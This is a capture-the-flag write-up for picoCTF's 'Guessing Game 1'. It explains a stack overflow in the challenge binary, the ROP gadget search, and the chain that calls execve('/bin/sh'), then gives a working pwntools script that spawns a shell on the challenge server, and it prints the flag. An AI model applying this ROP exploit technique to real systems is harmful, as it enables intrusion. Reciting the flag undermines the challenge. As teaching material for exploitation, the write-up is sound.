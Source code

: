 # Question
### Source
https://play.picoctf.org/events/3/challenges/challenge/90
### Description
I made a simple game to show off my programming skills. See if you can beat it!
[Gussing Game 1.zip][1]
`nc jupiter.challenges.picoctf.org 50583`

# Tools
IDA
VM - Kali Linux
Python
ROPgadget

# Analysis
## Knowledge points
Binary Exploitation
Return-oriented programming (ROP)
The goal of the Challenge Question is to run `execve("/bin/sh",NULL,NULL)` on the remote server.
Tips: No shellcode b/c NX is enabled: you cannot execute stack

## vuln
Analysis vuln.c and found that there is a **Stack Overflow Vuln**: 

    void win() {
        char winner[BUFSIZE];
        printf("New winner!\nName? ");
        fgets(winner, 360, stdin);//overflow vuln
        printf("Congrats %s\n\n", winner);
    }
Grabbing control of `eip` by taking advantage of the vuln to let the program Stack Overflow.

## Gadgets
Run the following commands:

    ROPgadget --binary vuln --only "pop|ret"
    ROPgadget --binary vuln --only "mov|ret"
    ROPgadget --binary vuln --only "syscall|ret"

Do ROP to achieve the goal—`execve("/bin/sh",NULL,NULL)`—by using the following gadgets:

    0x00000000004163f4 : pop rax ; ret
    0x000000000044a6b5 : pop rdx ; ret
    0x0000000000400696 : pop rdi ; ret
    0x0000000000436393 : mov qword ptr [rdi], rdx ; ret
    0x000000000044cc49 : pop rdx ; pop rsi ; ret
    0x000000000040137c : syscall

## Disassembly

### do_stuff()
Input the Gussing Number "84" for the first time (you only need one time if you guess correct so you can access to win() function)

Q: Why "84"
A: Dynamic debugging (IDA debugger or GDB)
Set a breakpoint at the following position:

    .text:0000000000400BBC                 mov     [rbp+var_ans], rax

`rax` will be equal to 84

### win()
    .text:0000000000400C40                 public win
    .text:0000000000400C40 win             proc near               ; CODE XREF: main+70↓p
    .text:0000000000400C40
    .text:0000000000400C40 winner          = byte ptr -70h
    .text:0000000000400C40
    .text:0000000000400C40 ; __unwind {
    .text:0000000000400C40                 push    rbp
    .text:0000000000400C41                 mov     rbp, rsp
    .text:0000000000400C44                 sub     rsp, 70h
    .text:0000000000400C48                 lea     rdi, aNewWinnerName ; "New winner!\nName? "
    .text:0000000000400C4F                 mov     eax, 0
    .text:0000000000400C54                 call    printf
    .text:0000000000400C59                 mov     rdx, cs:stdin
    .text:0000000000400C60                 lea     rax, [rbp+winner]
    .text:0000000000400C64                 mov     esi, 168h
    .text:0000000000400C69                 mov     rdi, rax
    .text:0000000000400C6C                 call    fgets
    .text:0000000000400C71                 lea     rax, [rbp+winner]
    .text:0000000000400C75                 mov     rsi, rax
    .text:0000000000400C78                 lea     rdi, aCongratsS ; "Congrats %s\n\n"
    .text:0000000000400C7F                 mov     eax, 0
    .text:0000000000400C84                 call    printf
    .text:0000000000400C89                 nop
    .text:0000000000400C8A                 leave
    .text:0000000000400C8B                 retn
    .text:0000000000400C8B ; } // starts at 400C40
    .text:0000000000400C8B win             endp

The return address of the function is stored at `rbp+8`, so overwrite it by overflowing the stack

## ROP: Gadgets
We are planning to run the following assembly code after win() return.

    ret        (retn of win() at .text:0000000000400C8B)
    pop rax
    ret
    pop rdx
    ret
    pop rdi
    ret
    mov qword ptr [rdi], rdx
    ret
    pop rdx
    pop rsi
    ret
    syscall

In order to run `execve("/bin/sh",NULL,NULL)` successfully, `rax` should be equal to 59 durning `syscall` is running, `rdi` should be the pointer of "/bin/sh", and `rsi` and `rdx` should be equal to 0 (NULL).

So, we should let the Stack like this:

    rbp+8		0x00000000004163f4			Address of one of Gadget
    rbp+10h		59					rax
    rbp+18h		0x000000000044a6b5			Address of one of Gadget			
    rbp+20h		"/bin/sh"				rdx (temporary use; will be overwrite later)
    rbp+28h		0x0000000000400696			Address of one of Gadget
    rbp+30h		0x00000000006BA770			rdi
    rbp+38h		0x0000000000436393			Address of one of Gadget
    rbp+40h		0x000000000044cc49			Address of one of Gadget
    rbp+48h		0					rdx
    rbp+50h		0					rsi
    rbp+58h		0x000000000040137c			syscall

## Remote to Find Flag: Python

Run the following Python program:

    from pwn import *
    
    sh = remote('jupiter.challenges.picoctf.org',50583)
    
    p = make_packer('all', endian='big', sign='unsigned')
    p64 = make_packer(64, endian='little', sign='unsigned')
    
    payload = p(0x90)*(0x70+8)	#rbp-70h
    payload += p64(0x4163f4)	#rbp+8h
    payload += p64(59)			#rbp+10h
    payload += p64(0x44a6b5)	#rbp+18h
    payload += p(0x2F62696E2F736800)	#rbp+20h
    payload += p64(0x400696)	#rbp+28h
    payload += p64(0x6BA770)	#rbp+30h
    payload += p64(0x436393)	#rbp+38h
    payload += p64(0x44cc49)	#rbp+40h
    payload += p64(0)			#rbp+48h
    payload += p64(0)			#rbp+50h
    payload += p64(0x40137c)	#rbp+58h
    
    sh.recvuntil('guess?\n')
    sh.sendline(p(0x3834))#84
    
    sh.recvuntil('\nName? ')
    sh.sendline(payload)
    
    sh.interactive()

![result.png][2]

So the Flag is `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_1ed68bc5575f6be1}`

  [1]: https://frc6.com/usr/uploads/2020/10/2453405697.zip
  [2]: https://frc6.com/usr/uploads/2020/10/1353396828.png
